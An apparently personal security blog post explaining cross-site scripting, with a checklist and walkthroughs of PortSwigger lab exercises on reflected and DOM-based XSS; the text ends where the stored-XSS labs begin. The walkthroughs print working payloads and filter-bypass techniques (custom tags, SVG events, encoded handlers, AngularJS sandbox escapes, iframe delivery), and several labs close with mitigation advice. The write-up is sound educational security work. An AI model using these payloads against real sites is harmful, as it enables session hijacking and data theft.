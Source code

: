 ```yaml
---
layout: post
title: XSS (Cross site scripting)
subtitle: Victim visit malicious URL/site to trigger the payload made of JavaScript. Causing their session to be controlled or data to be stolen
date: 2025-09-15 19:15
author: Ren Sie
comments: true
category: script-input
thumbnail-img: /assets/img/githubpost/xxs_thumb.png
---
```


Cross-site scripting (XSS) is a web security flaw where attackers inject malicious scripts into trusted websites, which then execute in the browsers of unsuspecting users. This exploitation allows attackers to steal sensitive data, hijack user sessions, or manipulate website content by taking advantage of web applications that do not properly validate or sanitize user input.


{: .box-note}
**Note:** 💡 During the testing, use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered. <br> When testing for XXS, test for html injection first because it’s more likely to work
E.g., \<h1\>test\</h1\>

## Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

1. **Is input reflected in the response?**

2. **Can we inject HTML?**
   - E.g., `https[://]victim[.]com/search?user=<img src=x onerror=prompt("XSS")>`
    
3. **Any weaknesses in the Content Security Policy (CSP)?**
   - Use of unsafe directives which allow execution of inline scripts or eval() functions, bypassing CSP protections. <br> E.g.,`Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';`
   - Allowing broad sources or wildcards in directives (e.g., script-src), which permits potentially untrusted external scripts to run. <br> E.g., `Content-Security-Policy: script-src *;`
   - Inclusion of compromised or vulnerable third-party domains in trusted sources, such as JSONP endpoints that can be exploited to inject malicious scripts. <br> E.g., `https[://]third-party_domain[.]com/jsonp?callback=prompt("xss is available!")`
   - Omitting strict directives for resources like object-src or failing to restrict nonces and hashes properly which can allow script injection.
   - Weak or predictable nonces (e.g., 'nonce-12345') that attackers can guess or reproduce to bypass CSP restrictions.
 
4. **Can we use events (e.g. onload, onerror)?**
   - `<body onload="prompt('XSS via onload!')"> Welcome to the website! </body>`
   - `<a href="https[://]trusted[.]com/search?user=<img src=x onerror=prompt("XXS Available")>"> Click me! </a>`

5. **Are there any filtered or escaped characters?**
   - E.g., `<`, `>`, `"`, `'`, `javascript:`, `alert()`
   - Refer to [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

6. **Is input stored and then later rendered?**

7. **Can we inject into non-changing values (e.g. usernames, comments, etc.)?**
   - E.g., web application allows user input and stores them without proper sanitization.

8. **Any input collected from a third party (e.g. account information)?**
   - Third-party inputs refer to any data or content that comes from an external source (via third-party api) or from other users.

9. Is the version of the framework or dependency vulnerable?
   - [OWASP Dependency-Check](https://github.com/dependency-check/DependencyCheck)
   - [OWASP Dependency-Check Installation and Scanning First project](https://www.youtube.com/watch?v=hWiI700y3J0)

</details>

## 1. Reflected XSS
Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

### Labs (Reflected XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
<summary>Click me to expand the labs</summary>  

  _**1. Reflected XSS into attribute with angle brackets HTML-encoded**_  
  The application contains a reflected XSS vulnerability in the search blog feature, where angle brackets are HTML-encoded. I inject an attribute via XSS that triggers an alert function.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Enter random input (e.g., test123) in the user input (URL query)
     ~~~
     URL: https[://]web-security-academy[.]net/?search=test123
     ~~~
  
  2. Utilize search function in inspection tab, and search for input (e.g., test123)
     ~~~
     Result: <input type="text" placeholder="Search the blog..." name="search" value="test123">
     ~~~
  
  3. After learning that our input is within a double-quoted attribute, we can try to bypass the double-quoted attributes by breaking out of the attribute value with the injection of double quotes or equivalent encodings, and then adding the HTML events that triggers the payload.
     ~~~
     URL: https[://]web-security-academy[.]net/?search=test123" onmouseover="alert(test)
     Result: <input type="text" placeholder="Search the blog..." name="search" value="test123" onmouseover="alert(test)">
     ~~~

     {: .box-note}
     **Note:** The `value` attribute is closed early by the injected quote, and `onmouseover="alert(1)` is interpreted as a new `onmouseover` attribute on the \<input\> tag.

  4. Once I hover the cursor over the search bar, it triggers the alert. I identify the XSS vulnerability.

  </details>
  -

  _**2. Reflected XSS into a JavaScript string with angle brackets HTML encoded**_  
  In this instance, the application is vulnerable to reflected XSS in the search query tracking functionality, where angle brackets are encoded. The reflection occurs inside a JavaScript string. I break out of the string and triggers the `prompt()` function, to demonstrate the vulnerability.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. I enter random input (e.g., test) in the user input (search bar)
  
  2. Utilize search function in inspection tab, and search for input (e.g., test). I find that the input is directly past into the function.
     ```javascript
     var searchTerms = 'test';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     ```
  
  3. Now I learn that my input is inside the single quote, I try breaking out the single quote with:
     ~~~
     Input: '-prompt("TestXSS")-' # breaks the single quote
           or \\'-prompt("TestXSS")// # If single quotes are escaped
     ~~~
  
  4. The message pops up after I send the query, which confirms that this instance is vulnerable to XSS. <br> Just to double-check, I pull out the script from the inspection tab.
     ```javascript
     var searchTerms = ''-prompt("TestXSS")-'';
     document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     ```
  </details>
  -

  _**3. Reflected DOM XSS**_  
  In this instance, a script on the page processes reflected data (user input) with `eval()` without any sanitization and ultimately writes it to a dangerous sink.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. First, I find the script used in the web application under the Network tab on the Inspection page.
     - The `xhr.open` method sends a GET request (with user input retrieved from `path + window.location.search`) and fetches data from the server using `XMLHttpRequest`.
     - Then it parses the JSON response (`this.responseText`) with `eval()`.
     - Lastly, it dynamically create and display search results (`displaySearchResults`) in the HTML DOM.

     ```javascript
     var xhr = new XMLHttpRequest();
     xhr.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {
          eval('var searchResultsObj = ' + this.responseText);
          displaySearchResults(searchResultsObj);
          }
     };
     xhr.open("GET", path + window.location.search);
     xhr.send();
     ```
   
  2. I send a test request and intercept the response using Burp Proxy.
     ```json
     {"results":[],"searchTerm":"test"}
     ```

  3. Because the script uses `eval()` to process the response, I can insert the `prompt()` function (see JSON Values in the [JSON Syntax](https://www.w3schools.com/js/js_json_syntax.asp))."  
     Now that I know the JSON structure, I create an input to break out of the expected structure in Burp Repeater.

  4. In the response to my first payload attempt `test\"-prompt()}//`, the double quote is escaped by the application, so I add an extra backslash (`\`) to bypass it.
     ~~~
     1-st_Request: ?search=test"-prompt()}//
     Response: {"results":[],"searchTerm":"test\"-prompt()}//"}
     ~~~
     ~~~
     2-nd_Request: ?search=test\"-prompt()}//
     Response: {"results":[],"searchTerm":"test\\"-prompt()}//"}
     ~~~

     {: .box-note}
     **Note:** The [Arithmetic Operators](https://www.w3schools.com/programming/prog_operators_arithmetic.php#gsc.tab=0) (`-`) forces `prompt()` to be parsed and executed as part of an expression. And ensuring it is executed immediately, not just ignored.
     And the `//` comments out whatever is after it.

  </details>
  -

  _**4. Reflected XSS into HTML context with most tags and attributes blocked**_  
  In this instance, the `/?search` parameter is being reflected into the page as HTML without proper contextual encoding or sanitization, and the WAF’s tag/attribute filtering is insufficient, so I bypass the filter and executes `prompt()`.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. After using general XSS testing payloads, I learn that the WAF is blocking some HTML tags to prevent common XSS.
     ~~~
     Payload: <img src="0" onerror="prompt()">
     Respond: "Tag is not allowed"
     ~~~

  2. To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<body>` is not blocked by the WAF.
     ~~~
     Burp Intruder:
     GET /?search=<Payload Position> HTTP/2
     ~~~

  3. After enclosing payloads within the `<body>` tag, I learn that the WAF is also blocking some attributes.
     ~~~
     Payload: <body onload="prompt()">
     Respond: "Attributes is not allowed"
     ~~~

  4. Repeating step 2, but this time I copy the events from the XSS cheat sheet. I got some events that comes back with 200 OK. 
     ~~~
     Burp Intruder:
     GET /?search=<body%20<Payload Position>=prompt()>
     ~~~

  5. To make the exploitation more realistic, after going through the unfiltered event attributes:
     - I used an `<iframe>` to embeds this vulnerable webpage (`src="https[://]vulnerable[.]com/`).
     - The query parameter `/?search` then load the URL-encoded payload `%22%3E%3Cbody+onresize=prompt()%3E`
     - [this.style.width](https://www.w3schools.com/jsref/prop_style_width.asp) to adjust the iframe’s size, which will trigger the `onresize` event and `prompt()`.

     ~~~
     <iframe src="https[://]vulnerable[.]com/?search=%22%3E%3Cbody+onresize=prompt()%3E" onload=this.style.height='88px'></iframe>
     ~~~

  6. Because I bypass the WAF filter with non-filterd tag and attribution, the function `prompt()` will be executed once someone clicks on the link.

  _**Suggestion**_
  1. [Treating user input strictly as data](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#xss-defense-philosophy). Encode/escape for the HTML context or render search terms as text nodes, never raw HTML
  2. Apply a server‑side allowlist sanitizer (or a vetted library such as [DOMPurify](https://www.npmjs.com/package/dompurify) when sanitization is required)
  3. Enforce [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline event handlers/scripts.
  4. [Harden WAF normalization/rules](https://docs.oracle.com/en-us/iaas/Content/WAF/Protections/protections_management.htm) to catch decoded event-attribute payloads.

  </details>
  -

  _**5. Reflected XSS into HTML context with all tags blocked except custom ones**_  
  In this instance, I find that the WAF blocks standard tags but allows custom element names. Because browser will parse custom tags as valid elements (`<cust-foo>`) and allow attributes (`onfocus`), I bypass the WAF and execute a prompt with custom tag, and other components to simulate the exploit in a real‑world scenario.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I started by testing the input form, and the response indicated that the tag was blocked.
     ~~~
     Request: GET /?search=<script>test</script>
     Response: "Tag is not allowed"
     ~~~

  2. Then I tried using a custom tag (`<cust-foo>`); this time, I did not receive any error. This confirms that the WAF does not block [custom tag](https://matthewjamestaylor.com/custom-tags).
     ~~~
     Request: GET /?search=<cust-foo>test</cust-foo>
     Response: HTTP/2 200 OK
     ~~~

  3. The browser treats custom tags (`<cust-foo>`) as valid HTML elements and parses their attributes and event handlers (`onmouseover`), which execute JavaScript when triggered by moving the cursor over a specific spot.
     ~~~
     Request: GET /?search=<cust-foo onmouseover='prompt("xss")'>Move your mouse here</cust-foo>
     Response: A pop-up "xss"
     ~~~

  4. To make the exploitation more realistic, I used custom tags with some components to create an .html file. As soon as a user opens it, they woulbe be redirected to the designated page and the prompt was executed:
     - `window.location.assign()`: Redirect the user's browser to a new URL while keeping the current page in the session history (Back button available).
     - `id`: Gives the element a unique identifier in the DOM (e.g., a1).
     - `tabindex`: Makes the element focusable, which can be used with `onfocus` events.
     - `onfocus`: The JavaScript will be triggered when the element (`id`) receives focus.
     - `#a1`: Call out and focus on the element `a1`.

     ```javascript
     <script>
     window.location.assign("https[://]vulnerable[.]com/?search=<cust-tag id=a1 tabindex=1 onfocus='prompt("I am focusable")'>#a1")
     </script>
     ```

  _**Suggestion**_
  1. Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) on output that must contain HTML (server-side)
  2. Configure [allowlists](https://help.ivanti.com/ht/help/en_US/ISM/2025/admin-user/Content/Configure/SetUpWizard/Configure%20Allowed%20Tags%20and%20Attribute.htm), only permit required tags and attributes, and explicitly exclude all event handler attributes (e.g., on*).
  3. Apply the appropriate [encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) based on where the data will be used (body, attribute, JavaScript string, URL, CSS), and do not rely on a single generic encoding for all contexts.
  4. Prefer [framework helpers](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#framework-security) and templating engines that provide automatic, correct output escaping rather than hand‑rolling your own escaping logic.
  5. Remove unnecessary HTML rendering of user‑supplied content whenever possible. If a field is a search query or otherwise simple text, return it as plain text (properly escaped) instead of rendering it as HTML with tags.
  
  </details>
  -

  _**6. Reflected XSS with some SVG markup allowed**_  
  In this instance, I discovered a reflected XSS vector that bypasses the WAF by using certain unfiltered tags and event. By inserting those, I was able to execute JavaScript, demonstrating a reflected XSS bypass through SVG + SMIL animation events.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I started by testing the input form, and the response indicated that the tag was blocked.
     ~~~
     Request: GET /?search=<script>prompt()</script>
     Response: "Tag is not allowed"
     ~~~

  2. To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<animatetransform>`, `<image>`, `<svg>`, `<title>` are not blocked by the WAF.
     ~~~
     Burp Intruder:
     GET /?search=<Payload Position> HTTP/1.1
     ~~~

  3. Next, to find out which event is not filtered. I repeated step 2 but copied the events from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet). I use `<image>` as example since I know it is not filtered, then I received only `onbegin` events that returned 200 OK.
     ~~~
     Burp Intruder:
     GET /?search=<image+src="x"+<Payload Position>=1> HTTP/1.1
     ~~~

  5. After some [researches](https://developer.mozilla.org/en-US/docs/Web/API/SVGAnimationElement/beginEvent_event, "SVGAnimationElement: beginEvent event"), I learned that `<svg>` and `<animatetransform>` can be used with `onbegin`. To test it out, I inserted `prompt()`, and the application responded with a pop‑up window containing my text, which proves that I bypassed the WAF's filters and executed a test script.
     ~~~
     <svg><animatetransform onbegin='prompt("Is this vulnerable to XSS?")'>
     ~~~
   
  _**Suggestion**_
  1. Treat any HTML or SVG in user input as untrusted. Ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied.
  2. If you must allow HTML/SVG, sanitize server‑side with a library that understands and safely handles SVG (e.g., [DOMPurify](https://www.npmjs.com/package/dompurify)).
  3. Deploy [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP) that avoids unsafe-inline and blocks inline script execution and data:/javascript: URLs (use script-src 'self' plus nonces/hashes if inline scripts are required).

  </details>
  -

  _**7. Reflected XSS in canonical link tag**_  
In this instance, I discovered that untrusted input from the URL query string is reflected into canonical link tag in the page source. By injecting [accesskey](https://www.w3schools.com/jsref/prop_html_accesskey.asp, "HTML DOM Element accessKey") attribute,  I was able to prove code execution in the page context after pressing the keystroke triggered JavaScript.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I opened the Inspector and found the canonical link in the source code.
     ~~~
     <link rel="canonical" href="https://web-security-academy.net/">
     ~~~

  2. I inserted a test string (`?test`) into the URL and saw my input rendered directly in the canonical link.
     ~~~
     <link rel="canonical" href="https[://]web-security-academy[.]net/?test">
     ~~~

  3. I then added an `accesskey` attribute to the `<link>` tag, and when the designated key was pressed it triggered the `onclick` event. The results showed:
     - Spaces in my input were encoded (`%20`) in the URL, but they were rendered as extra encoded spaces (` %20`) in the source code.
     - A single quotes were encoded (`%27`) in the URL, but they rendered as double quotes in the source code.
     ~~~
     Request: /?test' accesskey='x' onclick='prompt(test)
     Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" %20accesskey="x" %20onclick="prompt(test)">
     ~~~

  4. To bypass this, I removed the spaces from my input. After pressing Ctrl+Alt+X, a popup displayed my message.
     ~~~
     Request: /?test'accesskey='x'onclick='prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)
     Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" accesskey="x" onclick="prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)">
     ~~~

  _**Suggestion**_
  1. Don't reflect user input directly into HTML, ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied.
  2. [Sanitize & validate input](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation), if input used as a URL, validate against an allow-list of permitted patterns.
  3. Use [DOM methods](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html#rule-6-populate-the-dom-using-safe-javascript-functions-or-properties) to create and manage elements, attributes, and text nodes safely.
  4. Add/strengthen [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).
  5. Use [HTTP security headers](https://cheatsheetseries.owasp.org/cheatsheets/HTTP_Headers_Cheat_Sheet.html#security-headers).

  </details>
  -

  _**8. Reflected XSS into a JavaScript string with single quote and backslash escaped**_  
  In this instance, I discover a XSS vulnerability in the search tracking code. The application inserts user input directly into a JavaScript single-quoted string and escapes single quotes with a backslash, but it does not prevent breaking out of the surrounding script context (angle bracket > not escaped). I terminate the `<script>` tag and injecting a new `<script>` block.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I start by testing the input (`test_input`) to see where it is rendered in the source code, then I find my input is in a search function.
     ```javascript
     <script>
       var searchTerms = 'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  2. To test whether I can break out of the single quote (`'`), I try entering a single quote, but it is escaped with a backslash (`'\`).
     ```javascript
     <script>
       var searchTerms = '\'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  3. I try to escape the backslash (`\\'`), but it doesn’t work.
     ```javascript
     <script>
       var searchTerms = '\\\'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  4. Then I discover that the angle bracket isn’t escaped, so I close the existing tag with `</script>` and insert a new one `<script>prompt();</script>`. A popup then displays my message.
     ```javascript
     <script>
       var searchTerms = '</script><script>prompt("Am I vulnerable to XSS");</script>
       ';document.write('
     ```
   
Suggestion
  1. Validate and sanitize user input on client side to reject or clean inputs containing malicious characters or script tags.
  2. When inserting user input into JS strings, use [output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) that safely escapes all special characters that could break the context, not just single quotes and backslashes.
  3. Don't place variables into [dangerous contexts](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#dangerous-contexts) as even with output encoding.
  4. Implement [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that limits the sources and inline script execution. 

  </details>
  -

  _**9. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**_  
  In this instance, user input is inserted into a <script> tag with insufficient sanitization. Although special characters (e.g., `<>`, `"`) are HTML-encoded, single quotes (`'`) are only escaped with a backslash (`\'`), I bypass the protection by escaping the backslash itself.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I start by testing the input (`test_input`) to see where it is rendered in the source code, then I find my input is in a search function.
     ```javascript
     <script>
       var searchTerms = 'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
  2. To test whether I can break out of the single quote (`'`), I try entering a single quote and inserting a new tag, but the single quote is escaped with a backslash (`\'`), and the angle bracket and double quote are HTML-encoded for escaping.
     ```javascript
     <script>
       var searchTerms = '\' &lt;/script&gt;&lt;img src=&quot;x&quot; onerror=&quot;prompt()&quot;&gt;';
     </script>
     ```
  3. I try to escape the backslash (`\\'`), and it works.
     ```javascript
     <script>
       var searchTerms = '\\'';
     </script>
     ```   
  4. Now I know that the single quote will be escaped with a backslash (`\'`), but the backslash itself can be escaped by inserting another backslash (`\\'`). Double quotes and angle brackets are HTML-encoded for escaping. We can craft the payload:
     - Backslash neutralizes the escaping (`\\'`).
     - Hyphen serves as a valid operator between two expressions ensures the payload executes as JavaScript ('string' - prompt()).
     - Double forwardslash comments out trailing quotes (`//`).
     ```javascript
     <script>
       var searchTerms = '\\' - prompt()//';
     </script>
     ```
     
  5. As the web application response with a pop up window, I am assure that it is vulnerable to reflected XSS.

  _**Suggestion**_
  1. Apply JS [context-aware encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) when injecting untrusted data into JavaScript,
  2. Validate and sanitize user input on client side to reject or clean inputs containing malicious characters or script tags.
  3. Implement a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) to reduce the impact of XSS.
  4. Employ frameworks or libraries (e.g., [angular](https://angular.dev/best-practices/security#preventing-cross-site-scripting-xss)) that automatically escape user input based on context, or server-side templating engines with built-in sanitization.

  </details>
  -


</details>

## 2. Dom-Based XSS
Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.
One quick check is turn on the developer tool, input and execute a simple prompt or alert script, see if there’s any network interaction with the server.

{: .box-note}
**Note:** 🚨 Inspecting Network page in the developer tab while sending input. If there’s no external communication happens, it indicates it is Dom-Based XXS.

### Labs (Dom-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

  _**1. DOM-based XSS in document.write sink using source location.search**_  
  The target application use `document.write()` function to display content from `location.search`, which comes from the URL query string. Allows users to modify the URL, and to inject and execute arbitrary scripts in the page.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>  
  
  1. Enter random input (e.g., 123456) in the user input (URL query)
     ~~~
     https[://]web-security-academy.net/?search=123456
     ~~~
  
  2. Right-click on the webpage and open the inspection tab
  
  3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
     ~~~
     Result: <img src="/resources/images/tracker[.]gif?searchTerms=123456">
     ~~~
  
  4. After knowing the syntax. We can add a closing angle bracket to close up the img tag, and add a new tag with the payload. I use HTML encoding to bypass the filter.
     ~~~
     URL: "><script src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"></script>
     Result: <img src="/resources/images/tracker[.]gif?searchTerms=">
          <script src="x" onerror="javascript:alert('XSS')"></script>
     ~~~

  </details>
  -

  _**2. DOM XSS in innerHTML sink using source location.search**_  
  The application It assigns data from `location.search` to `innerHTML`, which updates the contents of a `<div>`. Since the URL can be controlled by the user, they can inject malicious HTML or scripts.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>  
  
  1. Enter random input (e.g., 123456) in the user input (URL query)
     ~~~
     https[://]web-security-academy.net/?search=123456
     ~~~
  
  2. Right-click on the webpage and open the inspection tab
  
  3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
     ~~~
     Result: <span id="searchMessage">123456</span>
     ~~~
  
  4. After knowing the syntax. I can add a closing tag to close up `<span>`, and add a new `<img>` tag with the payload. I use HTML encoding to bypass the filter.
       ~~~
       URL: https[://]web-security-academy[.]net/?search=</span><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
       Result: <span id="searchMessage"><img src="x" onerror="javascript:alert('XSS')"></span> <span>'</span> == $0
     ~~~
  
  </details>
  -
  
  _**3. DOM XSS in jQuery anchor href attribute sink using location.search source**_  
  In this instance, jQuery’s `$` selector is used to find a link and set its `href` using data from `location.search`, which comes from the URL query string.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Right-click on the webpage and open the inspection tab. I search for `location.search`, which led me to this script:
     ```javascript
     $(function() {
       $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
     });
     ```
  
  2. I also notice that the URL contains the `returnPath` query parameter, which aligns with the script. Which uses this query parameter to set the href attribute of the backlink.
     ~~~
     URL: https[://]web-security-academy[.]net/feedback?returnPath=/
     ~~~
  
  3. Insert the payload into the `returnPath` query parameter.
     ~~~
     URL: https[://]web-security-academy[.]net/feedback?returnPath=javascript:prompt(document.cookie)
     Result: <a id="backLink" href="javascript:prompt(document.cookie)">Back</a>
     ~~~
  
  </details>
  -

  _**4. DOM XSS in jQuery selector sink using a hashchange event**_  
  There is a DOM-based XSS vulnerability on the home page, where jQuery’s `$()` selector is used to auto-scroll to a post, with the title passed through `location.hash`.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Firstly, I search for `$()` in the inspection tab, and I find the syntax for this function. Which listens for hash changes in the URL (`/#`) and scrolls the corresponding blog post into view based on the hash value.
     ```javascript
     $(window).on('hashchange', function(){
       var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
       if (post) post.get(0).scrollIntoView();
     });
     ```
  
  2. I append a simple XSS test payload with a hashtag to the URL, and the print function is triggered. The XSS vulnerability in this application is confirmed.
     ~~~
     URL: https[://]web-security-academy[.]net/#<img src=x onerror=print()>
     ~~~

  3. In the case that I want to deliver this payload to others, I utilize `iframe`, `onload`, `img src`, and `onerror` to trigger the payload once they open the page.
     ~~~
     URL: <iframe src="https[://]web-security-academy[.]net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
     ~~~

     {: .box-note}
     **Note:** The `onload` attribute of the `iframe` runs JavaScript to append the print payload directly into the URL fragment after the page loads. The vulnerable page inside the iframe then reads this fragment (<img src=x onerror=print()>) and executes the injected payload.
  
  </details>
  -

_**5. DOM XSS in document.write sink using source location.search inside a select element**_  
  This instance contains a DOM-based XSS vulnerability in the stock checker functionality. It leverages the `document.write` function to output data to the page, using data from `location.search` that user can control through the website URL. The input data is between the `<option>` tag, I break out of it and calls the `prompt` function.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Firstly, I discover the function in the inspection tab (`right-click on the webpage > inspect`).
     And I learn that the script builds a `<select name="storeId">` dropdown by reading a `storeId` query parameter from the URL and, if present, adding it as the selected `<option>` before adding the three hard-coded stores (skipping any duplicate).
     It uses `document.write` with the raw URL value, so unescaped input could be reflected into the page; creating elements and setting textContent/value.
     ```javascript
     var stores = ["London", "Paris", "Milan"];
     var store = (new URLSearchParams(window.location.search)).get('storeId');
     document.write('<select name="storeId">');
     if(store) {
       document.write('<option selected>' + store + '</option>');
     }

     for(var i = 0; i < stores.length; i++) {
       if(stores[i] === store) {
           continue;
       }
       document.write('<option>' + stores[i] + '</option>');
     }

     document.write('</select>');
     ```

  2. After discovering that the function takes user input in the `storeId` parameter, I add the `storeId` parameter after the original `productId` parameter with a `&`. I then send a test input (e.g., test) to see the application's response. As expected, I am able to add a new selected `<option>`.
     ~~~
     URL: https[://]web-security-academy[.]net/product?productId=2&storeId=test
     Result:
     <select name="storeId">
       <option selected>test</option> # I create this option by inserting the parameter and value in the URL.
       <option>London</option>
       <option>Paris</option>
       <option>Milan</option>
     ~~~
  
  3. Remember this syntax `document.write('<option>' + stores[i] + '</option>');` from the function. What I can do is close the first `<option>` tag, inject new HTML tags and event attributes, and then open another `<option>` tag. I try injecting a couple of new HTML tags, and both work.
     Now, I can confirm that the stock search query function on this web application is vulnerable to XSS.
     ~~~
     Payload-1: storeId=test</option><iframe src="javascript:prompt('work?');"></iframe><option>
     Payload-2: storeId=test</option><script>prompt('work?')</script><option>
     ~~~

  </details>
  -

  _**6. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**_  
  This instance contains a DOM-based XSS vulnerability in an `AngularJS` expression within the search functionality. I inject a method (e.g. `$on`/`$eval`) that is available in the current scope to bypass AngularJS's security filter, append the `.constructor` property to create a `Function` object (`function(user_input)`), and then call it with `()` to execute the created function.

  {: .box-note}
  **Note:** Refer to [AngularJS DOM XSS Attack](https://www.youtube.com/watch?v=QpQp2JLn6JA) for more details walkthrough

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. After did some researches ([AngularJS - Escaping the Expression Sandbox](https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss), [Function() constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function), [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor), ) I come up with a couple of different payloads to pybass the security filter.
     ~~~
     Payload-1: \{\{$eval.constructor(prompt('AngularJS_xss'))()\}\}
     Payload-2: \{\{$on.constructor('prompt("AngularJS_xss")')()\}\}
     ~~~
  
  </details>
  -

</details>

## 3. Store-Based XSS
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs (Store-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

